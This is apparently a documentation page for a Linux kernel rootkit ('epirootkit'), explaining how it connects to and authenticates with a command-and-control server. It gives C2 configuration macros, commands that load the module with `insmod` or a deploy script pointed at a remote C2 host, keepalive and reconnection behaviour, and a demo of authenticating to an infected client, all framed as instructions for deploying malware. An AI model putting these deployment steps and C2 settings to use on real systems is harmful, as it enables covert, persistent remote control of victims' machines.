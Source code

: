 ```yaml
---
title: "Connection & Authentication"
description: "How the rootkit connects to C2 server and authenticates"
icon: "link"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 503
---
```




## Connection Process

When the rootkit loads, it automatically:

1. **Starts connection thread** (`epirootkit_conn`)
2. **Resolves domain** (if address is domain name) - see [DNS Resolution](./features/dns-resolution.md)
3. **Attempts TCP connection** to configured C2 server
4. **Begins keepalive system** (60-second ping/pong)
5. **Enables XOR encryption** for all C2 communication
6. **Handles reconnection** with exponential backoff

### Configuration with Domain Support
```c
// rootkit/core/config.h - Domain examples
#define C2_SERVER_ADDRESS "jules-c2.example.com"  // Domain name
#define C2_SERVER_PORT 4444
#define KEEPALIVE_INTERVAL_MS 60000
#define RECONNECT_DELAY_MS 5000

// Or traditional IP
#define C2_SERVER_ADDRESS "192.168.64.1"  // IP address
#define C2_SERVER_PORT 4444
```

### Runtime Parameters
Override config.h settings during deployment:
```bash
# Deploy with domain
sudo ./deploy_rootkit.sh address=secure.company.net port=443

# Deploy with IP
sudo ./deploy_rootkit.sh address=10.0.0.100 port=8080
```

## Authentication System

### How It Works
1. **C2 sends command**: `auth Client-1 password`
2. **Rootkit receives**: Plain text password
3. **Rootkit hashes**: Using SHA-512 kernel crypto API
4. **Compares hash**: Against stored hash in config
5. **Returns result**: SUCCESS or ERROR

### Implementation
```c
// Default password is "password" (SHA-512 hash stored in config)
#define PASSWORD_HASH "b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86"
```

### Security Features
- **Rate limiting**: 5 attempts per 60 seconds
- **Session timeout**: 1 hour automatic expiry
- **Secure hashing**: SHA-512 using kernel crypto API

## Keepalive System

- **Ping interval**: Every 60 seconds
- **Timeout detection**: 30 seconds for response
- **Failure threshold**: 3 consecutive failed pings
- **Automatic reconnection**: Exponential backoff (5s → 10s → 20s → 40s → 60s max)

### Monitoring
```bash
# Check keepalive status from C2
c2-server$ keepalive Client-1
# Keepalive Status:
# Last ping sent: 2025-05-25 16:14:00
# Last pong received: 2025-05-25 16:14:00
# Failed ping count: 0
# Connection stable: YES
```

## Live Demo

### 1. Start C2 Server
```bash
cd attacking_program && pnpm start
```

### 2. Load Rootkit with Domain
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=c2.test-domain.com port=4444

# Or load directly
sudo insmod epirootkit.ko address=c2.test-domain.com port=4444
```

**C2 server shows:**
```
[2025-05-25 16:13:09] New client connected: Client-1
[2025-05-25 16:13:09] Client-1 status: UNAUTHENTICATED
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 password
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful
```

For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).
